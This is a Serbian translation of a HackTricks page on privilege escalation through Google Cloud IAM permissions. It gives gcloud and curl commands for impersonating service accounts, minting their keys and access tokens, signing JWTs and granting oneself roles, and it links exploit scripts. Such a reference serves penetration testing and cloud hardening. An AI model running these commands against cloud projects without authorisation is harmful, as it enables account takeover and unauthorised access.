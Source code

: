 # GCP - IAM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

Pronađite više informacija o IAM-u u:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Napadač sa pomenutim dozvolama će moći da ažurira ulogu dodeljenu vama i da vam dodeli dodatne dozvole za druge resurse kao što su:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Možete pronaći skriptu za automatizaciju **kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde** i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Napadač sa pomenutim dozvolama će moći da **zatraži pristupni token koji pripada Servisnom Nalog**, tako da je moguće zatražiti pristupni token Servisnog Naloga sa više privilegija nego što su naše.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) i python skriptu za zloupotrebu ove privilegije [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Za više informacija proverite [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Napadač sa pomenutim dozvolama moći će da **kreira ključ koji upravlja korisnikom za Service Account**, što će nam omogućiti pristup GCP-u kao taj Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) i python skriptu za zloupotrebu ove privilegije [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Napomena: **`iam.serviceAccountKeys.update` neće raditi za modifikaciju ključa** SA jer su za to potrebne i dozvole `iam.serviceAccountKeys.create`.

### `iam.serviceAccounts.implicitDelegation`

Ako imate **`iam.serviceAccounts.implicitDelegation`** dozvolu na Servisnom Nalog koji ima **`iam.serviceAccounts.getAccessToken`** dozvolu na trećem Servisnom Nalog, tada možete koristiti implicitDelegation da **kreirate token za taj treći Servisni Nalog**. Evo dijagrama koji pomaže u objašnjenju.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Napomena: prema [**dokumentaciji**](https://cloud.google.com/iam/docs/understanding-service-accounts), delegacija `gcloud` funkcioniše samo za generisanje tokena koristeći [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) metodu. Tako da ovde imate kako da dobijete token koristeći API direktno:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

Napadač sa pomenutim dozvolama će moći da **potpiše proizvoljne terete u GCP**. Tako će biti moguće **napraviti nepodpisani JWT SA i zatim ga poslati kao blob da bi dobili JWT potpisan** od SA koji ciljate. Za više informacija [**pročitajte ovo**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) i [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

Napadač sa pomenutim dozvolama će moći da **potpiše dobro oblikovane JSON web tokene (JWT-ove)**. Razlika u odnosu na prethodnu metodu je u tome što **umesto da nateramo Google da potpiše blob koji sadrži JWT, koristimo metodu signJWT koja već očekuje JWT**. Ovo olakšava korišćenje, ali možete potpisivati samo JWT umesto bilo kojih bajtova.

Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) i python skriptu za zloupotrebu ovog privilegija [**ovde**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). Za više informacija pogledajte [**originalno istraživanje**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

Napadač sa pomenutim dozvolama će moći da **doda IAM politike servisnim nalozima**. Možete to zloupotrebiti da **dodelite sebi** dozvole koje su vam potrebne da biste se pretvarali da ste servisni nalog. U sledećem primeru dodeljujemo sebi ulogu `roles/iam.serviceAccountTokenCreator` nad interesantnim SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Možete pronaći skriptu za automatizaciju [**kreiranja, eksploatacije i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

**iam.serviceAccounts.actAs dozvola** je poput **iam:PassRole dozvole iz AWS-a**. Ključna je za izvršavanje zadataka, kao što je pokretanje Compute Engine instance, jer omogućava sposobnost "delovanja kao" servisni nalog, osiguravajući bezbedno upravljanje dozvolama. Bez ovoga, korisnici bi mogli dobiti neprimeren pristup. Pored toga, eksploatacija **iam.serviceAccounts.actAs** uključuje različite metode, od kojih svaka zahteva skup dozvola, za razliku od drugih metoda koje zahtevaju samo jednu.

#### Impersonacija servisnog naloga <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Impersonacija servisnog naloga može biti veoma korisna za **dobijanje novih i boljih privilegija**. Postoje tri načina na koja možete [impersonirati drugi servisni nalog](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating_a_service_account):

* Autentifikacija **koristeći RSA privatne ključeve** (pokazano iznad)
* Autorizacija **koristeći Cloud IAM politike** (pokazano ovde)
* **Implementacija poslova na GCP uslugama** (više primenljivo na kompromitaciju korisničkog naloga)

### `iam.serviceAccounts.getOpenIdToken`

Napadač sa pomenutim dozvolama moći će da generiše OpenID JWT. Ovi se koriste za potvrdu identiteta i ne nose nužno nikakvu implicitnu autorizaciju prema resursu.

Prema ovom [**zanimljivom postu**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), potrebno je naznačiti publiku (uslugu gde želite da koristite token za autentifikaciju) i dobićete JWT potpisan od strane google-a koji ukazuje na servisni nalog i publiku JWT-a.

Možete generisati OpenIDToken (ako imate pristup) sa:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Тада можете једноставно да га користите за приступ услузи са:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Neke usluge koje podržavaju autentifikaciju putem ovakvih tokena su:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (ako koristite Google OIDC)

Možete pronaći primer kako da kreirate OpenID token u ime servisnog naloga [**ovde**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
